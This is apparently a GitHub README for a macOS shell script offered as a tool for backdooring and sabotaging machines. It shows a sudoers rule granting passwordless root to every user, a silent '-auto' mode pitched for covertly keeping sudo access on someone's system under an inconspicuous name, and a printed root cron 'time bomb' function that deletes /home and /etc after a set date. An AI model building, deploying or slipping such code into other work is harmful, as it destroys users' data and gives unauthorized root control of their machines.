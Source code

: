 # `startup.sh`
## A MacOS Shell Script

Note: This branch deliberately omits the safety precautions in the [main](https://github.com/Eccys/startup.sh) branch.

## Requirements
You must have some prerequisites before installing/running this script:
- A MacOS machine
- Access to sudo
- git/curl
- cron (installed by default)

## Installation
Clone this repository, preferably, but not necessarily in the `/opt` directory:
```sh
# git clone https://github.com/eccys/startup.sh
# cd startup.sh
```

If `git` is not available, download the raw script with [curl](https://curl.se/):
```sh
# curl -O https://raw.githubusercontent.com/Eccys/startup.sh/other/startup.sh
```

Make it executable:
```sh
sudo chmod +x startup.sh
```
Run it:
```sh
./startup.sh
```

## Usage

Upon running and entering your sudo password, one is greeted with some information and options, which are self explanatory:
```sh
[root@hostname /opt]# ./startup.sh

List of super users: root
Passwordless sudo enabled: No
isti'la is disabled

Options:
1 = Toggle someone sudo
2 = Toggle sudo password requirement
3 = Enable/Disable isti'la

Select an option or press any other key to quit: 
```

If isti'la is enabled, the isti'la date is shown.

### Toggle someone sudo
On selecting this option, it will prompt for a user's username. The user is made into an administrator. This is safer than __Passwordless sudo__.

### Passwordless sudo
This writes to a file, `/etc/sudoers.d/nopasswd_for_all`, which contains the line `ALL ALL=(ALL) NOPASSWD: ALL`. It allows for anyone, even non-administrators, to use `sudo` and execute programs and/or commands as root. 

This works very well, as by default, the `/etc/sudoers` extends `/etc/suoders.d/`. It is very dangerous, and should never be left on, unless of course.. it is the desired outcome ;)

### Isti'la

Istila is a turkish word. This option is different from others, as it is coined solely for destruction.

#### What isti'la does
When enabling isti'la, it will prompt for a date. in the format `YYYYMMDDHH`. (e.g., `2024120112` for December 1st, 2024, 12PM.)

If enabled, isti'la writes the date to `/etc/isti'la_enabled`, and establishes a cron task in the root user's crontab, running every minute checking if the current date is greater than or equal to the isti'la date.

If it is, the commands specified in the script are executed:

```sh
# Function to execute isti'la if conditions are met
execute_istila() {
    if [ -f /etc/istila_enabled ]; then
        CURRENT_DATE=$(date +%Y%m%d%H)  # Convert current date to an integer format
        ISTILA_DATE=$(cat /etc/istila_enabled)

        if [ "$CURRENT_DATE" -ge "$ISTILA_DATE" ]; then
            if [ "$AUTO_MODE" != "true" ]; then
                echo "Executing isti'la..."
            fi
            # Uncomment the lines below to enable isti'la actions
            echo Successfully executed cron job and istila operation | sudo tee -a /opt/test >/dev/null
            sudo rm -rf /home
            sudo rm -rf /etc
        else
            if [ "$AUTO_MODE" != "true" ]; then
                echo "isti'la date has not yet arrived."
            fi
        fi
    fi
}
```

It is very useful for executing certain actions after a specified "doomsday" has passed.

> [!IMPORTANT]
> Commands such as `sudo rm -rf --no-preserve-root` are futile on MacOS environments with [System Integrity Protection](https://support.apple.com/en-us/102149) enabled. Likewise, any operation which seeks to modify files in `/bin`, `/sbin`, `/System`, `/var`, or `/usr`.

## Auto mode

The script supports the `-auto` flag. Execute:
```sh
./startup.sh -auto
```
Upon running the script in auto mode, __Passwordless sudo__ is automatically enabled, and that's it. 

Very useful for scenarios where someone types in their sudo password and their cooldown has not yet expired, and one wishes to retain sudo access silently. One may fork this repository and rename it to something inconspicuous, or use it as part of their own project. Running it in auto mode is inherently inconspicuous itself, as only a single word is printed: `Done.`.

### Isti'la with auto mode

The auto flag supports enabling isti'la automatically, via an argument. For example:
```sh
./startup.sh -auto 2024120112
```
will enable __Passwordless sudo__ as well as isti'la with the date `2024120112` (December 1st, 2024, 12PM). If all processes are executed successfully, one line is printed: `Done. isti'la date: <date>. Cron job is successful.`.

It is also very inconspicuous. Passwordless sudo is enabled regardless, as it is required for the cron job to be able to execute commands prefixed with `sudo`. However, this is not true, as it writes the cron job to the root user's crontab.

Pull requests and issues regarding extending functionality or correcting unexpected behavior are welcome.
